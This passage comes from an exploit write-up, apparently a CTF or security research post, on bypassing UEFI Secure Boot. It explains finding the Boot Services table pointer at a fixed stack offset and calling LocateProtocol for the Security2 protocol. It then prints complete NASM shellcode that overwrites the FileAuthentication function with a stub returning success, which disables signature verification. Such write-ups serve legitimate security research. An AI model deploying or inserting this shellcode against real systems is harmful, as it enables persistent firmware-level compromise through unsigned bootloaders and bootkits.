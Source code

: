 ```c
Status = gBS->LocateProtocol (&gEfiCpuArchProtocolGuid, NULL, (VOID **)&mCpu);
```

We can verify if the gBS pointer is accessible to us. By setting a breakpoint at the start of the shellcode and using debug symbols, we can inspect the memory near our stack pointer (RSP) to locate gBS.

![img](/images/gBS.png)

As we can see, gBS resides in memory at a fixed offset from RSP. This offset remains mostly constant across runs, which means we can reliably use it to retrieve the gBS pointer during exploitation.

At offset 0x140 within the gBS structure, we find the pointer to the LocateProtocol function.

In our shellcode, we need to call LocateProtocol with two arguments:
- The GUID of the Security2 protocol (which we can get from the edk2 source).
- A pointer to a valid memory location where the protocol interface pointer will be stored (so we can read and modify it).

Our goal is to overwrite the FileAuthentication member of the Security2 protocol interface with a stub function that simply XORs RAX with itself and returns. This effectively disables Secure Boot’s signature verification.

Here’s the final shellcode I used to perform this:

```nasm
bits 64
default rel

start:
        mov     r11, rsp
        add     r11, 0x25f48 ; Pointer to BootService (gBS) 0x25ec0

        lea     rcx, [rel SECURITY2_GUID]
        xor     rdx, rdx                     
        lea     r8,  [rel iface_slot]       

        mov     rax, [r11 + 0x140] ; gBS->LocateProtocol
        call    rax

        cmp     eax, 0
        jne     .fail

        mov     r12, [rel iface_slot]
        lea     r13, [rel .fail]
        mov     [r12], r13
    
        ret

.fail:
        xor rax, rax
        ret

SECURITY2_GUID:
        dd 0x94ab2f58
        dw 0x1438
        dw 0x4ef1
        db 0x91,0x52,0x18,0x94,0x1a,0x3a,0x0e,0x68

iface_slot:     dq 0
```
